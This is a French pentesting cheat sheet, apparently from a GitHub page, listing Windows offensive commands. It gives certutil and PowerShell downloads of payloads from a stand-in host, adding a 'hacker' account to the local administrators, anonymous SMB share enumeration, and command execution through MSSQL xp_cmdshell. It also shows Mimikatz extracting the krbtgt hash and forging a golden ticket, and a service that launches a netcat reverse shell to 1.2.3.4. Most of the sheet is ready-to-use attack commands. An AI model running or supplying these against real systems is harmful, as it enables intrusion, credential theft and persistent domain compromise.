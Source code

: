 <h2>Batch</h2>

`systeminfo` → Obtenir des renseignements sur le système

`tasklist` → Lister les processus

`netstat -ano` → Liste des connexions tcp

`dir sysprep /s /b` → Trouver un fichier dans le repertoire courant et ses sous-dossiers

`wmic qfe list` → Lister les patch installés (KB)

`certutil.exe -urlcache -split -f "http://site.com/bad.exe" bad.exe` → Wget en batch

`certutil.exe -decode bad.txt bad.exe` → Base64 decode en cmd

`net user Domain/hacker hackerhacker /add` → Ajoute un utilisateur

`net localgroup administrators hacker /add` → Ajoute un utilisateur à un groupe

`net use k: \\srv.remote.org\c$` → Connexion au disque distant c sur la partition k

`wmic useraccount where name='user'` → Récupère des informations sur un utilisateur (SID)

`net users [username]` pour obtenir des renseignements sur les utilisateurs

`net account` information sur la politique de mot de passe

## Samba

#### smbclient

Trouver la version

```
nmap -v -sSVC -p445 --script smb-os-discovery host
```

Exemple de share connus: IPC$, 
Connexion en tant qu'utilisateur Guest

```
smbclient -U guest% \\\\host\\share
```

Connexion en tant qu'anonyme

```
smbclient -U "" -N \\\\host\\share
```

Énumération de share

```
smbclient -U "" -N -L \\\\host\\share
nmap -v --script smb-enum-shares -p U:137,T:139 host
```

## MSSQL

#### sqsh

```
sqsh -S 1.2.3.4 -u user
EXEC master..xp_cmdshell 'whoami'
go
```

<h2>Powershell</h2>

`{(New-Object System.Net.WebClient).DownloadFile("http://site.com/file", "C:\\Users\Public\file")}` → Wget en powershell

`get-WmiObject -class Win32_Share`

<h2>Mimikatz</h2>

`privilege::debug`

`lsadump::lsa /inject /name:krbtgt` → Récupérer le NTLM hash de krbtgt

`kerberos::golden /user:[USER] /domain:[DOMAINE] /sid:[SID de USER] /krbtgt:[NTLM hash de krbtgt] /ticket:evil.tck /ptt` → Créé et inject un golden ticket à la session

## Privesc

Créer un service:

```
sc create cmdsvc type=own type=interact binpath="C:\tmp\nc64.exe 1.2.3.4 9999 -e cmd"
sc cmdsvc start
```
